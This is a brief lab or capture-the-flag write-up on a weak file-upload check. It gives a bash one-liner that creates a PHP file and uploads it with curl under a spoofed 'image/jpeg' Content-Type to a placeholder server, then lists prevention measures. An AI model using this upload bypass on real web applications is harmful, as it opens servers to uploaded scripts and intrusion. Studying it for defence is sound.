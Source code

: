 "# File Upload Issue

When you upload a file, there is a risk. A PHP file might be uploaded pretending to be an image. The attack involves making a PHP script (/tmp/bad.php) with this content <?php echo "This is a poor upload check..." ?>. To get past security, this file is uploaded using curl with the 'Content-Type' header set as 'image/jpeg'. The command for this is:
Here's the command that accomplishes this:
```bash
echo '<?php echo "This is a poor upload check..." ?>' > /tmp/bad.php && curl -X POST -F "Upload=Upload" -F "uploaded=@/tmp/bad.php;type=image/jpeg" "http://x.x.x.x/index.php?page=upload" | grep flag
```

## Prevention

Enhance security by not solely trusting 'Content-Type' headers, renaming files, restricting file types, and checking file sizes and permissions.